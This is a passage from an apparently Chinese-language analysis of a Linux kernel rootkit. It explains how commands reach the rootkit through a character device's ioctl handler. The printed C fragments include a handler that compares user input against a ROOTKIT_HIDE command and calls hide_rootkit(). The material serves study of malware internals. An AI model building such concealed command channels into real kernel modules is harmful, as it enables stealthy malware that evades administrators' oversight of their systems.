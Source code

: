 cmd：对字符设备的操作，读、写、打开、关闭等等。

arg：通常用来传递参数。这里是对rootkit执行的命令。

**设备驱动程序**

这位作者没有像reptile作者那样直接hook，而是采用正常设备交互流程。

先定义好操作命令对应的函数

```php
 char value\[20\];  
 ​  
 static int etx\_open(struct inode \*inode, struct file \*file)  
 {  
         pr\_info("\[+\] Device File Opened...!!!\\n");  
         return 0;  
 }  
 ​  
 static long etx\_ioctl(struct file \*file, unsigned int cmd, unsigned long arg)  
 {  
    if( copy\_from\_user(value ,(int32\_t\*) arg, MAX\_LIMIT) )  
     {  
         pr\_err("Data Write : Err!\\n");  
     }  
     if (strncmp(ROOTKIT\_HIDE, value, strlen(ROOTKIT\_HIDE)) \== 0)  
     {  
         hide\_rootkit();  
      }  
     ······  
       
     return 0;  
 }  
 ​  
 static ssize\_t etx\_read(struct file \*filp, char \_\_user \*buf, size\_t len, loff\_t \*off)  
 {  
         pr\_info("   \[+\] Read Function\\n");  
         return 0;  
 }  
 ​  
 static ssize\_t etx\_write(struct file \*filp, const char \_\_user \*buf, size\_t len, loff\_t \*off)  
 {  
         pr\_info("   \[+\] Write function\\n");  
         return len;  
 }  
 ······
```

把函数和对应的设备操作命令关联上

<https://elixir.bootlin.com/linux/v5.11/source/include/linux/fs.h#L1820>

其实这里只需要定义一个成员即可`.unlocked_ioctl`：调用设备文件 ioctl() 函数时调用的函数指针（不需要加锁）。那么，具体的rootkit命令处理逻辑就放在这个函数指针下即可。

```php
static struct file\_operations fops =  
{  
    .owner          = THIS\_MODULE,  
    .read           = etx\_read,  
    .write          = etx\_write,  
    .open           = etx\_open,  
    .unlocked\_ioctl = etx\_ioctl,  
    .release        = etx\_release,  
};
```
